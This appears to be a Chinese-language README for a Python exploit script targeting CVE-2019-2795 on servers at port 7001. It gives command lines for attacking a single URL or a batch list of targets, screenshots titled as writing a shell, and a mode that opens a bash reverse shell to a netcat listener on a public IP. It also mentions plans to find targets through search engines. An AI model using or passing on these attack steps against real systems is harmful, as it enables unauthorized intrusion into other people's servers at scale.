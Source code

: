 # 需求

Python3.x

requests库

# 单URL模式

`python3 cve-2019-2795.py http://192.168.246.132:7001/`

![脚本写shell](脚本写shell.png)

# 批量模式

url形如单url模式：`python3 cve-2019-2795.py -f url.txt`

![脚本批量](脚本批量.png)

# bash反弹shell

测试的时候发现有个url写了文件，但是没有命令执行，所以多加了一个verify函数，用于bash反弹shell，用法如下：`python3 cve-2019-2795.py -v http://192.168.246.132:7001/ -nc 127.0.0.1:1234`，需要先在公网IP上开启nc监听，通过-nc 指定公网IP和监听端口。



有空会写pocsuite3的poc脚本，便于从直接从搜索引擎查找目标和多线程。